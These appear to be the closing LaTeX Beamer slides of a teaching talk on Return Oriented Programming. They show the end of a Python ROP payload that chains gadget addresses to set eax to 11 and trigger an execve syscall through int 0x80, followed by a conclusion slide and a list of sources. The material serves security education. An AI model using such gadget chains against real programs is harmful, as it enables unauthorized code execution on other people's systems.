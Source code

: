 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Generating the payload, init params, syscall}
    \begin{lstlisting}[style=code, language=python]
p += str(pack\('<I', 0x080506c0\)\) # xor eax, eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e\)\) # inc eax ; ret
p += str(pack\('<I', 0x08049b2a\)\) # int 0x80
print p
    \end{lstlisting}
\end{frame}
\section{Conclusion}
\begin{frame}
    \frametitle{Conclusion}
    \begin{itemize}
        \item Return Oriented Programming is a very powerful technique
        \item It is able to execute any system call if there are enough rop gadgets
        \item There are many tools to simplify the process of finding ROP gadgets and generatating ROP payloads
        \item Modern desktops use aslr and other protection mechanisms $\rightarrow$ practically impossible to use ROP
    \end{itemize}
\end{frame}

\section*{Sources}
\begin{frame}
    \frametitle{Sources}
    \url{https://trustfoundry.net/basic-rop-techniques-and-tricks/}
    \url{http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf}
    \url{https://www.proggen.org/doku.php?id=security:memory-corruption:exploitation:rop}
    \url{https://shell-storm.org/talks/ROP_course_lecture_jonathan_salwan_2014.pdf}
\end{frame}
\end{document}
